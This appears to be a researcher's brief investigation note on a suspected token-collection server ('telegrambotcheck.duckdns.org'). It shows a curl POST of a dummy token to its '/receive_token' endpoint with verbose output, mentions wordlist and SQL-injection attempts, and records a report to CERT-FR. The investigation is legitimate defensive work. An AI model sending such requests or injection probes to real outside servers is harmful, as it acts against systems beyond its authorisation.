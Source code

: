 ### Interesting interaction:  

```bash
curl -vk -X POST "https://102.165.14.4:5001/receive_token?referrer=loco" \
  -d "token=Payload"
Note: Unnecessary use of -X or --request, POST is already inferred.
*   Trying 102.165.14.4:5001...
* Connected to 102.165.14.4 (102.165.14.4) port 5001
* ALPN: curl offers h2,http/1.1
* (304) (OUT), TLS handshake, Client hello (1):
* (304) (IN), TLS handshake, Server hello (2):
* (304) (IN), TLS handshake, Unknown (8):
* (304) (IN), TLS handshake, Certificate (11):
* (304) (IN), TLS handshake, CERT verify (15):
* (304) (IN), TLS handshake, Finished (20):
* (304) (OUT), TLS handshake, Finished (20):
* SSL connection using TLSv1.3 / AEAD-CHACHA20-POLY1305-SHA256 / [blank] / UNDEF
* ALPN: server accepted http/1.1
* Server certificate:
*  subject: CN=telegrambotcheck.duckdns.org
*  start date: May  5 01:49:29 2025 GMT
*  expire date: Aug  3 01:49:28 2025 GMT
*  issuer: C=US; O=Let's Encrypt; CN=E6
*  SSL certificate verify ok.
* using HTTP/1.x
> POST /receive_token?referrer=loco HTTP/1.1
> Host: 102.165.14.4:5001
> User-Agent: curl/8.7.1
> Accept: */*
> Content-Length: 18
> Content-Type: application/x-www-form-urlencoded
>
* upload completely sent off: 18 bytes
< HTTP/1.1 200 OK
< Server: TwistedWeb/24.3.0
< Date: Wed, 30 Jul 2025 14:04:37 GMT
< Content-Type: text/html; charset=utf-8
< Content-Length: 34
<
* Connection #0 to host 102.165.14.4 left intact
Invalid token or missing referrer.%
```
Can't figure how to go further.  
Tried random wordlist and then some sqli

---

# Reported to **cert-fr** with raw email, and findings. - 2025-07-30 -

